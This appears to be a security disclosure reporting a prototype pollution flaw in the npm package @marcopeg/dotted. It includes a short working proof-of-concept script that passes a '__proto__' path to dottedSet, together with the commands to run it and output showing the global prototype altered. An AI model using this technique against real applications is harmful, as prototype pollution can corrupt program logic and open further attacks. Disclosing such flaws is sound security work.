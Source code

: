 # Description

`@marcopeg/dotted` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var {dottedSet} = require("@marcopeg/dotted/lib/dotted.set")
var obj = {}
console.log("Before : " + {}.polluted);
dottedSet(obj, '__proto__.polluted', 'Yes! Its Polluted');
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i @marcopeg/dotted # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
